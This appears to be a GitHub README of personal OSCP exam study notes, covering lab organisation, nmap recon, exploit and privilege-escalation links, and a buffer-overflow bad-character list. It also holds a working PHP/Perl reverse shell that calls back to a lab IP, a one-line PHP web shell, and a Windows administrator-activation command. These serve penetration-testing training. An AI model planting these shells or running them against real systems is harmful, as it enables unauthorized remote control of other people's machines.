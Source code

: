 # OSCP Notes
My notes on OSCP

### Lab Notes
Setup a good folder/file naming structure to organize your work. I have three main folders:
- exploits: work-in-progress info
    - host1
    - host2
    - _recon: network-wide scans data
- network1: contains finished hosts under network1 (moved from exploits directory)
- network2: contains finished hosts under network2
- reports


Setup shell aliases for connecting to OVPN & Windows machine
Under `.bashrc` in Kali
```
cd
lab="openvpn YOUR_OVPN_FILE.ovpn"
win="rdesktop -u username -p password 1.2.3.4"
source .bashrc
```

### Kali-specific Notes
Search exploits
```
searchsploit wordpress escalation
...snip...
cp /usr/share/exploitdb/exploits/php/webapps/12345.txt ./
````

### Recon
NMAP
```bash
nmap -A -T4 --script vulners -oN out.nmap {TARGETS}
```

Target a specific type of scripts with wildcards (e.g. smb*)
```bash
nmap -T4 --script ftp* -p 21 -oN out.nmap {TARGETS}
```

Add addtional vulnerability scanning capability to NMAP

[Vulners](https://github.com/vulnersCom/nmap-vulners)

### Web
gobuster

[Gobuster Package Description](https://tools.kali.org/web-applications/gobuster)

## Useful Tools / Cheatsheets
Handy tools/cheatsheets for lab

MS17-010
[AutoBlue](https://github.com/3ndG4me/AutoBlue-MS17-010)

msfvenom *replaced msfpayload in older articles*
[Msfvenom Cheat Sheet](https://thor-sec.com/cheatsheet/oscp/msfvenom_cheat_sheet/)

## Useful Bookmarks
Detailed explanation on how tools/exploits work.

### Windows
[Windows Privilege Escalation Fundamentals](http://www.fuzzysecurity.com/tutorials/16.html)
[AutoBlue](https://0xdf.gitlab.io/2019/02/22/wl-dummy.html)

### MySQL
[GAINING A ROOT SHELL USING MYSQL USER DEFINED FUNCTIONS AND SETUID BINARIES](https://infamoussyn.wordpress.com/2014/07/11/gaining-a-root-shell-using-mysql-user-defined-functions-and-setuid-binaries/)

### Oracle
[Variations in Exploit methods between Linux and Windows](https://www.blackhat.com/presentations/bh-usa-03/bh-us-03-litchfield-paper.pdf)

### Metasploit
[Deep Dive Into Stageless Meterpreter Payloads](https://blog.rapid7.com/2015/03/25/stageless-meterpreter-payloads/)
[Offensive Msfvenom: From Generating Shellcode to Creating Trojans] (https://medium.com/@PenTest_duck/offensive-msfvenom-from-generating-shellcode-to-creating-trojans-4be10179bb86)

### Java
[Java-Deserialization-Cheat-Sheet](https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet)
[Java RMI](https://github.com/JoyChou93/java-sec-code/wiki/Java-RMI)

### Shell Code
[0x7 Exploit Tutorial: Bad Character Analysis](http://www.primalsecurity.net/0x7-exploit-tutorial-bad-character-analysis/)
```python
bad_chars = ""
bad_chars += "x01x02x03x04x05x06x07x08x09x0ax0bx0cx0dx0ex0fx10"
bad_chars += "x11x12x13x14x15x16x17x18x19x1ax1bx1cx1dx1ex1fx20"
bad_chars += "x21x22x23x24x25x26x27x28x29x2ax2bx2cx2dx2ex2fx30"
bad_chars += "x31x32x33x34x35x36x37x38x39x3ax3bx3cx3dx3ex3fx40"
bad_chars += "x41x42x43x44x45x46x47x48x49x4ax4bx4cx4dx4ex4fx50"
bad_chars += "x51x52x53x54x55x56x57x58x59x5ax5bx5cx5dx5ex5fx60"
bad_chars += "x61x62x63x64x65x66x67x68x69x6ax6bx6cx6dx6ex6fx70"
bad_chars += "x71x72x73x74x75x76x77x78x79x7ax7bx7cx7dx7ex7fx80"
bad_chars += "x81x82x83x84x85x86x87x88x89x8ax8bx8cx8dx8ex8fx90"
bad_chars += "x91x92x93x94x95x96x97x98x99x9ax9bx9cx9dx9ex9fxa0"
bad_chars += "xa1xa2xa3xa4xa5xa6xa7xa8xa9xaaxabxacxadxaexafxb0"
bad_chars += "xb1xb2xb3xb4xb5xb6xb7xb8xb9xbaxbbxbcxbdxbexbfxc0"
bad_chars += "xc1xc2xc3xc4xc5xc6xc7xc8xc9xcaxcbxccxcdxcexcfxd0"
bad_chars += "xd1xd2xd3xd4xd5xd6xd7xd8xd9xdaxdbxdcxddxdexdfxe0"
bad_chars += "xe1xe2xe3xe4xe5xe6xe7xe8xe9xeaxebxecxedxeexefxf0"
bad_chars += "xf1xf2xf3xf4xf5xf6xf7xf8xf9xfaxfbxfcxfdxfexff"
```

### Buffer Overflow Practice
Lots of scripts on github but I would recommend setup XP/Win7 box (and Immunity debugger/Mona) and practice

MiniShare 1.4.1
[MiniShare 1.4.1 - Remote Buffer Overflow (1)](https://www.exploit-db.com/exploits/616)
Software
[MiniShare 1.4.1](https://www.google.com/search?q=minishare-1.4.1.zip)


## Reverse Shell
PHP calls perl for reverse shell (quotes must be escaped properly - test it locally first!)
```php
<?php
$cmd = "perl -e 'use Socket;\$i=\"10.11.0.90\";\$p=5555;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr_in(\$p,inet_aton(\$i)))){open(STDIN,\">&S\");open(STDOUT,\">&S\");open(STDERR,\">&S\");exec(\"/bin/sh -i\");};'";
shell_exec($cmd);
?>
```

## Web Shell
PHP
```php
<?php echo shell_exec($_GET["cmd"]); ?>
```

## Post-Exploitation

### Windows
Reset/activate account
```powershell
net user administrator /active:yes password123
```

## Exam related links
[A Script Kiddie’s guide to Passing OSCP on your first attempt](https://forum.hackthebox.eu/discussion/1730/a-script-kiddie-s-guide-to-passing-oscp-on-your-first-attempt)

[Pentest Book](https://chryzsh.gitbooks.io/pentestbook/content/list_of_common_ports.html)